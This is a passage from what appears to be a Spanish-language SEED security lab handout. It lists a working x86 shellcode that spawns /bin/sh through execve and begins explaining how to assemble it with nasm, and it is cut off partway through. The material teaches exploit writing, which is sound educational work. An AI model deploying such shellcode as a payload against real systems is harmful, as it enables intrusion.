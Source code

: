 En esta tarea, hemos provisto un shellcode x86 sencillo para mostrar a los estudiantes como escribir un shellcode desde el principio. Los estudiantes pueden descargarse este código del laboratorio en el sitio oficial.
El código a usar es mostrado a continuación. \textbf{Nota:} por favor no copie y pegue el código desde este archivo PDF, porque algunos caracteres podrían verse alterados al realizar esta acción. Use directamente el código descargado del sitio oficial.

Si bien en el código se da una breve explicación en los comentarios, los estudiantes pueden encontrar una explicación más detallada en el libro de SEED (Capítulo 4.7) y también en el curso de SEED en Udemy (Lectura 30 del curso de Computer Security).


\begin{lstlisting}[caption={A basic shellcode example \texttt{mysh.s}}]
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax
      push eax          ; Use 0 to terminate the string  
      push "//sh"       ;                                  (*@\ding{202}@*)
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0                      (*@\ding{203}@*)
      push ebx          ; argv[0] points to the cmd string (*@\ding{204}@*)
      mov  ecx, esp     ; Get the address of argv[]

      ; For environment variable 
      xor  edx, edx     ; No env variable                  (*@\ding{205}@*)

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b 
      int 0x80
\end{lstlisting}


\paragraph{Compilando a código objeto.}
Compilaremos nuestro código en ensamblador (\texttt{mysh.s}) usando \texttt{nasm}, el cual es un ensamblador y desensamblador para las arquitecturas Intel x86 y x64.
El parámetro \texttt{-f elf32} nos permite compilar el código a un formato de binario ELF de 32-bits. El formato ELF (Executable and Linkable Format) es un formato  archivo para ejecutables, código objeto y librerías compartidas.
Para usar un binario de 64-bits se deberá usar \texttt{elf64}.


